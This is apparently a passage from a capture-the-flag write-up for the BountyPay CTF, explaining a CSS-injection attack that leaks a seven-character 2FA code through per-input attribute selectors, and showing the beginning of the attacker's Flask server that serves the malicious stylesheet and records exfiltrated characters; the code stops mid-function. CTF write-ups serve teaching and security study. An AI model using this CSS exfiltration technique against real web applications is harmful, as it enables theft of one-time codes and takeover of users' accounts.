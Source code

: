 This is when it struck me that there are, in fact, 7 separate inputs on the page, each containing a single character. This made perfect sense, as to exfiltrate such code we don't need any sequential imports - we just need many selectors.

But before we get there, we need to know exact names of inputs - because we need to know the exact order of characters. If we simply match on `input[name^=code]` we'd never know which character is at which place.

So I quickly made another few iterations on progressively matching the next character to determine the input names and they turned out to be `code_1`, `code_2`, ..., `code_7`. From there it was all really trivial.

Let's see what my final code looks like, and then we can break it down piece by piece:

I'm using Flask here. Since it needs to be available on public internet and with a valid HTTPS certificate, I'm not focusing on how this could be ran / deployed. Rather, this shows Flask routes with all the relevant logic of the exploit.
```python
import logging
import string
from collections import defaultdict
from typing import List
from uuid import uuid4

from flask import url_for, Response, current_app, request

from . import blueprint

logger = logging.getLogger(__name__)

NUM_CHARS = 7

ALLOWED_CHARS = string.digits + string.ascii_letters + string.punctuation

# Store exfiltrated results in a dict where keys are sessions and values are 7-element lists
code_chars = defaultdict(lambda: [None] * NUM_CHARS)

original_css = """
/**
Template for the UNI 2FA App
 */

body {
    background-color: #FFFFFF;
}

div.branding {
    height:80px;
    width:80px;
    margin:20px auto 40px auto;
    background-image:url("https://www.bountypay.h1ctf.com/images/bountypay.png");
    background-position:center center;
    background-repeat: no-repeat;
    background-size: cover;
}
"""


@blueprint.route('/uni_2fa_style.css')
def uni_2fa_style_css():
    session = request.args.get('session', uuid4().hex[:5])

    def selector(pos, char):
        name = escape_css_selector(f'code_{pos + 1}')
        value = escape_css_selector(char)
```